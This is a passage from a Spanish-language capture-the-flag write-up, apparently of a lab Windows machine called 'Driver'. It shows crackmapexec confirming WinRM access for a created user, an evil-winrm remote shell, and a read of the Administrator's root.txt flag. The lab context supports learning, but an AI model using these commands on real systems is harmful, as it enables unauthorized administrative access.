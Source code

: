 Para verificar que este nuevo usuario tenía acceso remoto con privilegios elevados a través de **WinRM**, se utilizó `crackmapexec` nuevamente confirmando que el usuario tiene acceso:
```bash
❯ crackmapexec winrm smb 10.10.11.106 -u 'test' -p 'test123'
SMB         10.10.11.106    5985   DRIVER           [*] Windows 10.0 Build 10240 (name:DRIVER) (domain:DRIVER)
HTTP        10.10.11.106    5985   DRIVER           [*] http://10.10.11.106:5985/wsman
HTTP        10.10.11.106    5985   DRIVER           [+] DRIVER\test:test123 (Pwn3d!)
```

se procedió a establecer una sesión remota completa a través de **evil-winrm** utilizando las credenciales recién creadas. Esto se logró ejecutando el siguiente comando:
```bash
❯ evil-winrm -i 10.10.11.106 -u 'test' -p 'test123'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
```

Una vez dentro como usuario `test`, se navegó al escritorio del usuario `Administrator`, demostrando acceso total al sistema con privilegios de administrador. Desde allí, se accedió al archivo `root.txt`.
```bash
*Evil-WinRM* PS C:\Users\test\Documents> cd C:\Users\Administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/8/2025   9:58 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
45264eadd5dd2d5a15de78f9eae78fc5
```
